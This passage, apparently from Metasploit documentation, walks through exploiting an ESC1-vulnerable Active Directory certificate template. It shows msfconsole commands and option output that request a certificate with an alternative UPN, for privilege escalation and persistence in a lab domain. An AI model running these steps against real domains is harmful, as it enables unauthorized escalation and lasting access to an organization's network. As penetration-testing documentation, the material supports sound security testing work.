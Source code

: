 With this we now have a list of certificates that can be utilized for privilege escalation. The next step is to use the `ipcr_cert` module to request certificates for authentication using the vulnerable certificate templates.

# Getting A Vulnerable ESC1 Certificate As The Current User For Persistence
To get a vulnerable certificate by enrolling in the ESC1 vulnerable certificate template ESC1-Template, we will use the `ipcr_cert` module. We are using the `ESC1-Template` certificate template since that is the easiest to attack. We will set the login details, set the IP address of the target CA server to authenticate to, and then the name of the certificate authority and the certificate template to use when issuing the certificate.

**IMPORTANT**: Note that we also set the `ALT_UPN` field here. This is needed when doing PKINIT authentication via the `pkinit_login` module as without this field the certificate that is generated will
not be able to be used by the `pkinit_login` module to authenticate to the domain. This is because ESC1 templates have the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag set on them so we need to
specify the `ALT_UPN` field otherwise we won't generate a valid cert for authentication.

Finally we will run the module:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN normal@daforest.com
ALT_UPN => normal@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN        normal@daforest.com          no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC1-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
```